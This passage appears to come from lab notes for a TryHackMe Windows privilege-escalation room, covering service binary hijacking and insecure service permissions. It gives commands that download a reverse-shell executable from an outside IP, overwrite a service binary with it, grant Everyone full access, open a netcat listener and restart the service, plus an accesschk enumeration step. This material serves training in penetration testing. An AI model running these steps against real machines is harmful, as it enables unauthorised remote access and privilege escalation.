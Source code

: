 **Victim(Powershell)**

```
wget http://10.10.15.215:81/rev-svc2.exe -O rev-svc2.exe
move C:\Users\thm-unpriv\rev-svc2.exe C:\MyPrograms\Disk.exe
icacls C:\MyPrograms\Disk.exe /grant Everyone:F
```

**Kali**

```
nc -lvp 4446
```

**Victim(cmd)**

```
sc.exe stop "disk sorter enterprise"
sc.exe start "disk sorter enterprise"
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (4).png" alt=""><figcaption></figcaption></figure>

### Insecure Service Permissions

**Examples**

[#insecure-service-permissions](../../../../walkthroughs/tryhackme/windows-privilege-escalation.md#insecure-service-permissions "mention")

**Victim(cmd)**

```
cd C:\tools\AccessChk
accesschk64.exe -qlc thmservice
```
